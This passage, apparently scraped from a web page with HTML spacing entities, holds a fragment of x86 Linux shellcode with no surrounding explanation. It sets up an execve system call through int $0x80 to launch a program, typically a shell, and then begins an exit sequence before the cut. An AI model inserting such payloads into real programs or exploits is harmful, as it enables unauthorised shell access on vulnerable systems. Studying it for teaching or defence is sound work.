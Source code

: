 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%eax,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;%eax,0x7(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%eax,0xc(%esi)

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0xb,%al

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;xorl&nbsp; &nbsp;%ebx,%ebx

